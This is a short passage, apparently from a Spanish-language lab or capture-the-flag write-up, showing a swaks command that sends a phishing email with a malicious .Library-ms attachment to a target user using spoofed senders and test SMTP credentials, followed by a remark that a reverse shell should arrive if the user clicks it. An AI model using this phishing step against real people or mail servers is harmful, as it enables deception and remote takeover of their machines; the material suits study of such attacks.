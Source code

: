 	 sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com,anita@supermagicorg.com --attach @config.Library-ms --server $target --body @body.txt --header "Subject: Staging Script" --suppress-data --auth-user test@supermagicorg.com --auth-password 'test'
	```
- Tras ponernos en escucha en nuestra pwnbox deberíamos recibir una revshell si el usuario pincha en el correo